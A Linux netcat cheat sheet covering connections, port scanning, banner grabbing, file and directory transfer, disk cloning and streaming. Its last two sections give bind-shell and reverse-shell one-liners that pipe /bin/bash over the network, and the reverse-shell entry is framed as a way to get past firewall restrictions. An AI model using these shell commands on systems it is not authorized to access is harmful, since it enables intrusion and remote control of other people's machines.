 ```yaml
---
title: Netcat
date: '2020-11-25T18:28:43.000Z'
icon: icon-netcat
background: bg-blue-600
tags:
  - ncat
  - nc
  - utility
  - network
  - traffic
categories:
  - Linux Command
intro: This cheat sheet provides various for using Netcat on both Linux and Unix.
---
```


# nc

## Getting started

### Usage

Connect to a host located anywhere

`$ nc \[options\] \[host\] \[port\]`

Listen for incoming connections
```shell 
$ nc -lp port [host] [port]
```

### Option examples

| Option | Description | Example |
| :--- | :--- | :--- |
| `-h` | nc -h | Help |
| `-z` | nc -z 192.168.1.9 1-100 | Port scan for a host or IP address |
| `-v` | nc -zv 192.168.1.9 1-100 | Provide verbose output |
| `-n` | nc -zn 192.168.1.9 1-100 | Fast scan by disabling DNS resolution |
| `-l` | nc -lp 8000 | TCP Listen mode _\(for inbound connects\)_ |
| `-w` | nc -w 180 192.168.1.9 8000 | Define timeout value |
| `-k` | nc -kl 8000 | Continue listening after disconnection |
| `-u` | nc -u 192.168.1.9 8000 | Use UDP instead of TCP |
| `-q` | nc -q 1 192.168.1.9 8000 | Client stay up after EOF |
| `-4` | nc -4 -l 8000 | IPv4 only |
| `-6` | nc -6 -l 8000 | IPv6 only |

### Chat client-server

Server \(192.168.1.9\) `$ nc -lv 8000`

Client
```shell
$ nc 192.168.1.9 8000
```

## Examples {.cols-3}

### Banner grabbing

`$ nc website.com 80 GET index.html HTTP/1.1 HEAD / HTTP/1.1`

or
```shell
echo "" | nc -zv -wl 192.168.1.1 801-805
```

### Port scanning

Scan ports between 21 to 25 `$ nc -zvn 192.168.1.1 21-25`

Scan ports 22, 3306 and 8080
```shell
$ nc -zvn 192.168.1.1 22 3306 8080
```

### Proxy and port forwarding

`$ nc -lp 8001 -c "nc 127.0.0.1 8000"`

or
```shell
$ nc -l 8001 | nc 127.0.0.1 8000
```

Create a tunnel from one local port to another

### Download file

Server \(192.168.1.9\) `$ nc -lv 8000 &lt; file.txt`

Client
```shell
$ nc -nv 192.168.1.9 8000 > file.txt
```

Suppose you want to transfer a file “file.txt” from server A to client B.

### Upload file

Server \(192.168.1.9\) `$ nc -lv 8000 &gt; file.txt`

Client
```shell
$ nc 192.168.1.9 8000 < file.txt
```

Suppose you want to transfer a file “file.txt” from client B to server A:

### Directory transfer

Server \(192.168.1.9\) `$ tar -cvf – dir\_name \| nc -l 8000`

Client
```shell
$ nc -n 192.168.1.9 8000 | tar -xvf -
```

Suppose you want to transfer a directory over the network from A to B.

### Encrypt transfer

Server \(192.168.1.9\) `$ nc -l 8000 \| openssl enc -d -des3 -pass pass:password &gt; file.txt`

Client
```shell
$ openssl enc -des3 -pass pass:password | nc 192.168.1.9 8000
```

Encrypt data before transfering over the network

### Clones

Server \(192.168.1.9\) `$ dd if=/dev/sda \| nc -l 8000`

Client
```shell
$ nc -n 192.168.1.9 8000 | dd of=/dev/sda
```

Cloning a linux PC is very simple. Suppose your system disk is /dev/sda

### Video streaming

Server \(192.168.1.9\) `$ cat video.avi \| nc -l 8000`

Client
```shell {.wrap}
$ nc 192.168.1.9 8000 | mplayer -vo x11 -cache 3000 -
```

Streaming video with netcat

### Remote shell

Server \(192.168.1.9\) `$ nc -lv 8000 -e /bin/bash`

Client
```shell
$ nc 192.168.1.9 8000
```

We have used remote Shell using the telnet and ssh but what if they are not installed and we do not have the permission to install them, then we can create remote shell using netcat also.

### Reverse shell

Server \(192.168.1.9\) `$ nc -lv 8000`

Client
```shell
$ nc 192.168.1.9 8000 -v -e /bin/bash
```

Reverse shells are often used to bypass the firewall restrictions like blocked inbound connections

